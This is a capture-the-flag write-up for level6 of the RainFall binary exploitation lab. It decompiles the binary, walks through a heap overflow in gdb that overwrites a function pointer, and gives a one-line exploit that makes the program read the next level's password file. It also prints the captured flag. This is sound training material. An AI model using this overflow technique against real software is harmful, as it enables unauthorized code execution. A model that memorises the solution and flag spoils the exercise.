 ## Step 1: Static & Dynamic Analysis

```c
int32_t m()
{
    return puts("Nope");
}

int32_t n()
{
    return system("/bin/cat /home/user/level7/.pass");
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    char* eax = malloc(64);
    int32_t (** eax_1)() = malloc(4);
    *eax_1 = m;
    strcpy(eax, argv[1]);
    return (*eax_1)();
}
```

### Explanation

The binary allocates two memory blocks on the `heap`, the first one is `64` bytes, and the second is `4` bytes. The second block stores a function pointer initialized to `m()`. 

Then, the binary uses `strcpy()` to copy `argv[1]` into the first block without any check about `buffer overflow`. Our goal is to overflow the first block and overwrite the function pointer from `m()` to `n()`.

```asm
(gdb) info proc map
process 5857
Mapped address spaces:
        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level6/level6
         0x8049000  0x804a000     0x1000        0x0 /home/user/level6/level6
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

We inspect the heap contents after filling our buffer with 64 bytes.

```asm
(gdb) run $(python -c 'print("A" * 64)')

(gdb) x/32wx 0x804a000
    0x804a000:      0x00000000      0x00000049      0x41414141      0x41414141
    0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a040:      0x41414141      0x41414141      0x00000000      0x00000011
    0x804a050:      0x08048468      0x00000000      0x00000000      0x00020fa9
    0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```

```asm
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   %ebp
   0x08048469 <+1>:     mov    %esp,%ebp
   0x0804846b <+3>:     sub    $0x18,%esp
   0x0804846e <+6>:     movl   $0x80485d1,(%esp)
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave  
   0x0804847b <+19>:    ret    
```

The address of `m()` is located at `0x08048468`, just 72 bytes from the start of the first block. We will overwrite this address with the address of `n()`.

```asm
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave  
   0x08048467 <+19>:    ret
```

## Step 2: Exploit the Binary

```bash
level6@RainFall:~$ ./level6 $(python -c 'print("A" * 72 + "\x08\x04\x84\x54"[::-1])')

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
